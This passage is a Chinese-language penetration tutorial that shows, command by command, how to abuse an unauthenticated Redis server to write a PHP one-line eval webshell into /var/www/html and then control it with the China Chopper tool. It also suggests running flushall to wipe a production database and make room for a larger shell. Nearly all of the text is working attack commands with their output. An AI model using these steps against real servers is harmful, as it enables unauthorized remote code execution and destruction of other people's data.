 

**具体步骤：**


1、连接到这个 Redis 上：
``` shell
root@kali:~# redis-cli -h **.**.**.**
```

`注意：` Redis 的连接除了通过指定 `IP`，也可以通过指定域名，参考：[聚美优品某 redis 服务器匿名对外开放](https://shuimugan.com/bug/view?bug_no=153275)。

![title](https://leanote.com/api/file/getImage?fileId=5dd15d15ab64414b29000a53)

2、设置写入目录：
``` shell
redis **.**.**.**:6379> config set dir /var/www/html/

OK
```

3、设置写入文件：
``` shell
redis **.**.**.**:6379> config set dbfilename test.php

OK
```

4、以键值对的形式写入一句话木马

``` shell
redis **.**.**.**:6379> set webshell "<?php @eval($_POST[123]);?>"

OK
```
自己看情况改一句话木马。

`注意：`实际上这里相当于一个可解析文件的任意文件上传点，也可以写入别的文件如 phpinfo 并进行解析：

![title](https://leanote.com/api/file/getImage?fileId=5dd14b43ab6441492c0009c5)

![title](https://leanote.com/api/file/getImage?fileId=5dd14bbcab6441492c0009d2)

> 但是要注意这里有个问题：为什么我们不直接在这里写入大马呢？（在可视化软件中可以方便的添加长字符串）
Redis 在生产环境里面数据量经常是十分庞大的，save 到 php 文件里如果超过 php 的允许文件大小，会导致无法解析。而且 save 也不支持仅写入某个数据库，而是只能保存整个 redis 的实例，所以 select 到某个空数据库来写入 shell 也是无法试验的。
在这种情况下有个简单粗暴的方法：直接 `flushall` 全删掉即可。或者先备份再删，之后再进行恢复。这样就腾出空间写 shell 了。
当然 `flushall` 是高危操作，会清空数据，当然能不用则不用。所以我们还是写一句话木马最小、最节省空间。

5、保存写入硬盘

``` shell
redis **.**.**.**:6379> save

OK
```

6、得到 webshell，菜刀连
